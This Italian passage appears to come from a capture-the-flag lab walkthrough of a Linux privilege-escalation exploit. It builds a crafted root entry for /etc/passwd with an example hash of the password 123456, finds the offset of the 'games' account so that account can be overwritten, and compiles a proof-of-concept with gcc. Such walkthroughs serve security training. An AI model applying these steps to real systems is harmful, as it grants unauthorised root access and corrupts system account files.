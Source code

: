 Infine, inserisci il tuo nome utente e hash in questo modello di voce passwd: 

```
USERNAME:HASH:0:0::/root:/bin/bash.
```


Il tuo contributo dovrebbe avere un aspetto simile a questo:
```
muiri:$6$THM$MeGI7eYSh.ex3l79m8sMQ2dq9Ux77JfC7XlCgZbneUFAvnHj4gphJKnnveuf2AndcoLn2mmhJVhcxvAIgA8RJ.:0:0::/root:/bin/bash
```

```
'muiri:$6$THM$MeGI7eYSh.ex3l79m8sMQ2dq9Ux77JfC7XlCgZbneUFAvnHj4gphJKnnveuf2AndcoLn2mmhJVhcxvAIgA8RJ.:0:0::/root:/bin/bash   '
```
Nota: la password: 123456 è stata utilizzata per generare l'hash di esempio sopra.

Poiché stiamo sovrascrivendo le voci esistenti nel file delle password, dobbiamo anche aggiungere una nuova riga alla fine della nostra voce. Questo ci assicura di evitare di corrompere la voce con eventuali residui del contenuto precedente della riga.

Il nostro contenuto finale dovrebbe quindi assomigliare a questo (virgolette incluse):

```
'muiri:$6$THM$MeGI7eYSh.ex3l79m8sMQ2dq9Ux77JfC7XlCgZbneUFAvnHj4gphJKnnveuf2AndcoLn2mmhJVhcxvAIgA8RJ.:0:0::/root:/bin/bash   '
```

Abbiamo il nostro file ( /etc/passwd) e il nostro contenuto (la voce passwd): ora ci serve solo l' offset . L'offset indica il punto del file in cui l'exploit dovrebbe iniziare a scrivere, in altre parole, quale parte del file viene sovrascritta.

La vulnerabilità non ci permetterà di aggiungere dati al file, quindi dovremo scegliere un account e sovrascriverlo. Realisticamente parlando, data la lunghezza della nostra voce passwd (hash incluso), questo probabilmente sovrascriverà diversi account. Esaminando il file passwd, l' games account si distingue come un buon candidato per essere un account poco utilizzato che possiamo permetterci di eliminare per qualche minuto. Possiamo usare grepl' -bopzione per trovare l'offset di games dall'inizio del file:

**Trovare l'offset**
```
grep -b "games" /etc/passwd
```
```
189:games:x:5:60:games:/usr/games:/usr/sbin/nologin
```
L'offset risulta essere 189, fornendoci il pezzo finale del nostro puzzle.

Siamo finalmente pronti a partire!

**Il programma può essere compilato utilizzando i seguenti comandi:**

Comando di compilazione
```
cd ~/Exploit/PoC
```
```
gcc poc.c -o exploit
```
```
ls
```
```
poc.c exploit
```
Questo si sposta nella directory contenente il codice exploit, quindi lo compila con gcc.
